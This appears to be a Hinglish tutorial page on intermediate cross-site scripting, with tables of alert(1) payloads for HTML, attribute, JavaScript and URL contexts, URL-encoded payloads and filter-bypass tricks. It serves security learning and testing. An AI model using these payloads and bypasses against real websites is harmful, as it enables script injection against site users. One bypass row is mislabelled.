 # XSS Intermediate Level
Yahan se tu seekhega:

- Different XSS contexts kya hote hain
- Encoded payloads kahan use karne hain
- Bypass techniques kya hoti hain
- Real websites jese input fields mein XSS kaise test karte hain
- BurpSuite mein XSS detection kaise hota hai

---

### ;✅ Step 1: XSS Contexts — Kahan kaunsa payload use hota hai?

| 🔍 Context         | Reflection jahan hoti hai       | Example Payload             |
| ------------------ | ------------------------------- | --------------------------- |
| HTML Context       | `<div>input_here</div>`         | `<script>alert(1)</script>` |
| Attribute Context  | `<img src="input_here">`        | `x" onerror="alert(1)`      |
| JavaScript Context | `var a = "input_here"`          | `";alert(1);//`             |
| URL Context        | `<a href="input_here">`         | `javascript:alert(1)`       |
| Event Handler      | `<button onclick="input_here">` | `alert(1)`                  |

---

### Step 2: Encoding — Jab tag block ho to encoding se kaam chalate hain

| Payload                 | Encoded                         |
| ----------------------- | ------------------------------- |
| `<script>`              | `%3Cscript%3E`                  |
| `"`                     | `%22`                           |
| `'`                     | `%27`                           |
| `<svg onload=alert(1)>` | `%3Csvg%20onload%3Dalert(1)%3E` |

---

### Step 3: XSS Bypass Techniques


| Technique                                 | Example                                                           |
| ----------------------------------------- | ----------------------------------------------------------------- |
| Using HTML entities                       | `<scr<script>ipt>alert(1)</scr<script>ipt>`                       |
| Breaking out of attributes                | `x" onmouseover="alert(1)`                                        |
| Using different tags                      | `<svg/onload=alert(1)>`, `<math><mi//xlink:href="data:x"></math>` |
| Using backticks (template literals) in JS | `` `alert(1)` ``                                                  |

---